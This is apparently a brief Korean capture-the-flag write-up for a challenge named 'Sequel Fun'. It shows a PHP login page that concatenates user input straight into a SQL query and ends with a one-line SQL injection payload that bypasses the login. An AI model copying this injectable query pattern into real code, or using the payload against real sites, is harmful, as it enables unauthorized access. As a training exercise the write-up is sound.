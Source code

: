 # Sequel Fun
> ## **Overview**
간단한 SQLI 문제이다.  
<pre>```<?php include ("config.php"); if (isset ($_GET['user']) && isset ($_GET['pass'])) { $user = $_GET['user']; $pass = $_GET['pass']; if (strpos ($user, '1') === false && strpos ($pass, '1') === false) { $conn = new mysqli ($servername, $username, $password, $dbname); $result = mysqli_query ($conn, "SELECT * FROM users WHERE user='" . $user . "' AND pass='" . $pass . "'", MYSQLI_STORE_RESULT); // TO-DO: Remove elf:elf account if ($result === false) { echo "<b>Our servers have run into a query error. Please try again later.</b>"; } else { if ($result->num_rows !== 0) { $row = mysqli_fetch_array ($result, MYSQLI_ASSOC); echo "<h1>You are logged in as: " . $row["user"] . "</h1><br>"; echo "<b class='flag'>"; if ($row ["uid"] === "0") echo $flag; else echo "Welcome elf!"; echo "</b>"; } else { echo "<b>Login fail.</b>"; } } } else { echo "<b>I don't like the number 1 :(</b>"; } } else { echo '<form class="center"> <h1>Santa Login:</h1> <label>Username:</label> <input type="text" name="user" autocomplete="off"><br> <label>Password:</label> <input type="password" name="pass" autocomplete="off"><br> <input type="submit" value="Connect"> </form>'; } ?>```</pre>  


> ## **solve**
```user=test&pass=' or 2#```
